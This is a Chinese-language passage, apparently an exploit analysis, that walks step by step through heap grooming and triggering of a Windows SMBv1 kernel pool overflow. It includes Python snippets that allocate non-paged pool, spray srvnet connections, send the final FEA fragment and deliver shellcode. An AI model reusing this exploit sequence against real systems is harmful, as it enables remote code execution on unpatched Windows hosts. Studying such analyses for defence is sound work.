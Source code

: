     typedef struct _FEALIST {    /* fealist */
        DWORD cbList;   /* total bytes of structure including full list */
        FEA list[1];    /* variable length FEA structures */
    } FEALIST, *PFEALIST;

二、利用bug3申请大小为：`NTFEA_SIZE-0x1010`的non-paged pool内存

    allocConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x1010)

这块内存的申请是为了确保后续NTFEA的内存可以与srvnet相邻

三、申请多个srvnet进行占坑：

        srvnetConn = []
        for i in range(numGroomConn):
           sk = createConnectionWithBigSMBFirst80(target)
           srvnetConn.append(sk)

四、利用bug3申请大小为：`NTFEA_SIZE-0x10`的non-paged pool内存

    holeConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x10)

这块内存是用来确保NTFEA使用，接着让srvnet与这块内存相邻即可

五、释放第二步申请的内存，这样可以确保临时申请的一些小内存不会直接添加到holeConn后面，阻碍srvnet的占用

    allocConn.get_socket().close()

六、申请srvnet，仅靠holeConn：

        for i in range(5):
           sk = createConnectionWithBigSMBFirst80(target)
           srvnetConn.append(sk)

这里申请多个，只有一个可以仅靠holeConn，那么就算是成功了

七、此时内存布局基本完成，释放holeConn，准备触发整个漏洞链

    holeConn.get_socket().close()

八、发送fealist最后一个fragment，此时会触发bug1的越界操作

    send_trans2_second(conn, tid, feaList[progress:], progress)

这里通过响应来判断是否发生越界，因为构造的fealist最后一条记录是非法记录，转换肯定会报错：

        recvPkt = conn.recvSMB()
        retStatus = recvPkt.getNTStatus()
        # retStatus MUST be 0xc000000d (INVALID_PARAMETER) because of invalid fea flag
        if retStatus == 0xc000000d:
           print('good response status: INVALID_PARAMETER')
        else:
           print('bad response status: 0x{:08x}'.format(retStatus))

九、完成了越界后，借助srvnet覆盖后的MDL，向HAL\'s heap地址传入shellcode

        for sk in srvnetConn:
           sk.send(fake_recv_struct + shellcode)

